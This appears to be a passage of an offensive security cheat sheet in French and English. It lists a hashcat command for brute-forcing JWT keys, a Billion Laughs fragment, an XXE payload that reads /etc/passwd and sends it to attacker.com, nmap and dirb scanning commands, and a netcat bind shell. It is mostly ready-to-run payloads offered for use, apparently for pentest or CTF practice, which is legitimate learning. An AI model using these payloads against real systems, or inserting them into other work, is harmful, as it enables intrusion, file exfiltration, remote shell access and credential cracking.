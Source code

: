 
### JWT tools

hashcat, jwtbrute : permet de casser des clés JWT (360 millions/sec):
```bash
hashcat -m 16500 hash.txt -a 3 -w 3 ?a?a?a?a?a?a
```

### Resources

* [archive.org](https://archive.org/web/) view old versions of web pages
* [JWT decoder](https://www.jsonwebtoken.io/)




## XML Injections

*Goals:* 

Billion Laughs: Inclusion exponentielle d'entités XML
```xml
<!ENTITY lol "lol"> <!ENTITY lol2 "&lol; &lol;">
```

Lire des fichiers sur le serveur
```bash
<!ENTITY faille SYSTEM "file:///etc/passwd"> <!ENTITY attacker SYSTEM "https://attacker.com?%faille;">
<data>&faille;</data>
```


## Network analysis

*Goals:* Scan the network and identify open doors

```
# port scanning
nmap 172.30.0.14/28 -p- -sC -sV

# get the tree from runnning web application
dirb http://172.30.0.2/


```


## Remote server injections

### Command Injections

*Goals:* Accès à distance sur le serveur. Màj de fichiers. Accès root. déni de service...

BindShell:
```bash
# Open a shell from a remote machine
nc -lp 1234 -e /bin/sh
# from local machine
nc <ip_victime> 1234
```

